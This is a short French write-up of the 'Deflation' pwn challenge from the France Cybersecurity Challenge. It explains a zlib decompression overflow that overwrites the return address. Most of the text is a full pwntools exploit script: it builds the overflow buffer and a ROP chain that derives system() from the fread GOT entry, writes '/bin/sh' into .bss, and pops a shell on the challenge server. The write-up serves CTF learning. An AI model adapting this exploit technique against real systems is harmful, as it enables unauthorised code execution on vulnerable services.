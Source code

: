 #### Deflation

était un challenge de pwn où un bloc de donnée compressé avec zlib,

causait un overflow permettant d'écrase l'addresse de retour.

En envoyant des données peu compressibles, on déborde aisément sur l'addresse de retour.

Le binaire étant non-PIE il suffit donc de retourner sur la fonction de lecture pour lire un ROP plus conséquent..

et avoir un shell

comme dans l'exploit donc..

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./deflation_patched")
libc = ELF("./libc.so.6")


host, port = "challenges.france-cybersecurity-challenge.fr", "2055"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

pop_rdi = 0x00000000004012eb # pop rdi ; ret
pop_rsi = 0x00000000004012e9 # pop rsi ; pop r15 ; ret
gadget_add = 0x0000000000401198  # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
gadget_set = 0x0000000000401289  # pop rbx ; pop rbp ; pop r12 ; pop r13 ; ret
set_csu = 0x4012e2  # pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14; pop r15; ret
call_csu = 0x4012c8 # mov rdx,r14 ; mov rsi,r13 ; mov edi, r12d ; call qword[r15+rbx*8] ; +7 pop

memcpy = exe.sym['memcpy']
def add_gadget(address, val):
  global gadget_set
  global gadget_add
  return p64(gadget_set)+p64(val & 0xffffffff)+p64(address+0x3d)+p64(0)*2+p64(gadget_add)

buff = b''

# données peu compressibles car sans répétitions..
for i in range(0,249,1):
  buff += chr((i+66)%256)
buff += p64(0x401096)[0:7]		# address de retour écrasée
if (len(buff)<256):
  buff = buff.ljust(256,'\x00')

# next payload
payload = p64(0x4011b0)*33
# write ret gadget to 0x404a00 .bss address
payload += add_gadget(0x404a00, 0x4012f0)
# set registers rdi,rsi,rdx, for memcpy
payload += p64(set_csu)+p64(0)+p64(1)+p64(0x404a08)+p64(exe.got['fread'])+p64(8)+p64(0x404a00)
# copy fread GOT entry to 0x404a08 .bss address with memcpy
payload += p64(call_csu)+p64(0)*7+p64(memcpy)
payload += add_gadget(0x404a08, (libc.sym['system']-libc.sym['fread']) )
payload += add_gadget(0x404a10, u32('/bin'))
payload += add_gadget(0x404a14, u32('/sh\x00'))
payload += p64(set_csu)+p64(0)+p64(1)+p64(0x404a10)+p64(0)+p64(0)+p64(0x404a08)
payload += p64(call_csu)+p64(0)*7
payload = payload.ljust(0x20000,'\x00')
p.send(buff+payload)

p.interactive()

```

